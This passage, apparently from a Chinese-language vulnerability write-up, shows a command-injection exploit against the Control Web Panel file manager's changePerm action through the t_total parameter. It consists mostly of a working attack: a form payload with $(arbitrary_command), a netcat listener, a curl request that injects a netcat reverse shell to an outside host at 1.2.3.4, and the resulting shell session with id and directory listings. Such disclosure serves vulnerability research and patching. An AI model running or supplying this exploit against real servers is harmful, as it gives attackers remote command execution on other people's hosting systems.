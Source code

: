 ```
------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;currentPath&#34;

/home/myuser/
------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;recursive&#34;


------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;t_total&#34;

$(arbitrary_command)
------WebKitFormBoundaryrTrcHpS9ovyhBLtb–
```

  
  
最后，攻击者可以使用以下命令利用此漏洞：  
  
在受控服务器上设置监听端口：  
  

```
$ nc -v -n -l -p 9999
Listening on 0.0.0.0 9999
```

  
  
启动漏洞利用程序：  
  

```
$ curl -kis 'https://127.0.0.1:52083/myuser/index.php?module=filemanager&acc=changePerm' --data 'fileName=.bashrc&currentPath=/home/myuser&t_total=`nc 1.2.3.4 9999 -e /bin/bash`'
```

  
  
等待应用程序重新连接：  
  

```
$ nc -v -n -l -p9999
Listening on0.0.0.09999
Connection received on5.6.7.843520
id
uid=1001(myuser) gid=1001(myuser) groups=1001(myuser)
ls -lah
total 728K
drwxr-xr-x. 7 cwpsvc cwpsvc 238 May 311:11 .
drwxr-xr-x. 14 cwpsvc cwpsvc 220 May 311:11 ..
-rw-r--r-- 1 root root 12K Jul 82020 Authenticator.php
-rw-r--r-- 1 root root 41K Sep 282021 codeEditor.php
-rw-r--r-- 1 root root 9.7K Jul 82020 configmailclient
drwxr-xr-x. 2 cwpsvc cwpsvc 6 Mar 222021 cwp_branding
drwxr-xr-x. 35 cwpsvc cwpsvc 4.0K Feb 1022:13 cwp_lang
drwxr-xr-x. 3 cwpsvc cwpsvc 22 Feb 1022:13 cwp_theme
-rw-r--r-- 1 root root 542K Mar 162023 fileManager2.php
-rw-r--r-- 1 root root 90K Oct 192022 fileManager_v2.php
-rw-r--r-- 1 root root 17K Jun 72023index.php
drwxr-xr-x. 3 cwpsvc cwpsvc 77 May 311:11 login
drwxr-xr-x. 2 cwpsvc cwpsvc 26 May 311:11 traits
lrwxrwxrwx. 1 root root 36 Feb 1109:06 myuser -> /usr/local/cwpsrv/var/services/users
```
